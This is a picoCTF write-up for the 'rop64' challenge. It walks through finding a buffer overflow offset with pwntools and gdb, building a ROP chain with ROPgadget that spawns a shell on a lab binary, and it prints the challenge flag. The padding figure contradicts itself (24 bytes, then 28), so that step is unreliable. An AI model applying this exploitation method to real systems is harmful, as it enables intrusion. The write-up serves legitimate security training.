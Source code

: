 # rop64

## Problem

> Time for the classic ROP in 64-bit. Can you exploit this program to get a flag? You can find the program in /problems/rop64_0_4c66bec7dba72276ffa01e0ad2d6ec8f on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. Get Padding
    1. Run `python2 -c "from pwn import *; print cyclic(1000, n=8)" > fuzz.in`
    2. Start program in gdb (preferably with pwndbg extension) and run `r < fuzz.in` to start then `x $rbp` to get `0x6161616161616163:     Cannot access memory at address 0x6161616161616163`
    3. Run `python2 -c "from pwn import *; print cyclic_find(0x6161616161616163, n=8)"` to get padding of `16`
    4. Add 8 to padding because right after `16` is the "saved frame/base pointer" (which is 8 bytes because 64 bit program) and we want to modify the "saved return address" which is the next address in the stack. ([More Info](https://medium.com/@buff3r/basic-buffer-overflow-on-64-bit-architecture-3fb74bab3558))
    5. So padding is `'a'*(16+8)`
2. Use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to run `python ROPgadget.py --binary ./vuln --rop --badbytes "0a"` to get ROP chain
3. Paste in padding of `'a'*28`
4. Run [script.py](./script.py) for remote execution
5. Run `cat flag.txt` in the shell that spawns

### Flag

`picoCTF{rOp_t0_b1n_sH_w1tH_n3w_g4dg3t5_d4b7a298}`
